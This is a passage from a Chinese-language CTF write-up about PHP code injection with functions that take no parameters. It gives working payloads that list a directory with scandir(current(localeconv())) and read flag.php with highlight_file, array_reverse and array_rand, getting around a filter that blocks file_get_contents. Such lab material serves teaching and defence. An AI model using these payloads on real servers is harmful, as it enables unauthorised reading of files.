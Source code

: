    > echo "hello","world!"
   >
   > print "Hello World!"  输出一个字符串
   >
   > print_r(Array)  可输出字符串、整型、数组、对象类等
   >
   > printf、sprintf 格式化输出字符串
   >
   > var_dump  显示结构信息、包括类型和值，并以缩进表示层次。

   表示点的函数：current(localeconv())/pos(localeconv())

   所以这里可用：

   - print_r(scandir(current(localeconv())))
   - var_dump(scandir(current(localeconv())))

   <img src="images/image-20210126175038061.png" alt="image-20210126175038061" width="67%;" />

4. 可以看到当前目录下有flag.php文件，是第3个文件。说明最终的flag可能在这个文件里面。

5. 读取flag.php文件：

   读取文件内容：

   - file_get_contents()    本题不能使用  因为匹配了et
   - readfile()  
   - highlight_file()  
   - show_source()

   读取数组列表的倒数第二个：

   - 因为函数不能传递参数，所以本题只能使用php的数组指针来获取特定位置的值

   - 将scandir返回的数组逆序排序（array_reverse），获取下一个next	

     - highlight_file(next(array_reverse(scandir(current(localeconv())))));

       > 注意：不能使用highlight_file(next(next(next(scandir(current(localeconv()))))); 

   - 使用array_rand()函数，多刷新几次

     - highlight_file(array_rand(scandir(current(localeconv()))));

## 总结

- 利用无参数函数进行命令注入